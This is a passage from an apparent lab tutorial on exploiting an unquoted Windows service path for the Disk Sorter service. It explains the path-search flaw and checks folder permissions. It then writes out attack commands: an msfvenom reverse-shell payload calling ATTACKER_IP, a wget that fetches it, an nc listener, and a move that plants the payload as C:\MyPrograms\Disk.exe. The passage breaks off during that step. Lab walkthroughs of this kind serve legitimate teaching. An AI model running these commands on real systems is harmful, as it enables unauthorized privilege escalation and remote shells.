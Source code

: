 ```
Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:
1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.

2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.

3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\ `directory, which allows any user to create files and folders in it. We can check this using `icacls`:
```
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
The `BUILTIN\\Users` group has AD and WD privileges, allowing the user to create subdirectories and files, respectively.
The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ python3 -m http.server
```
Powershell:
```
wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
```
Attacker Machine
`nc -lvnp 4446`

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

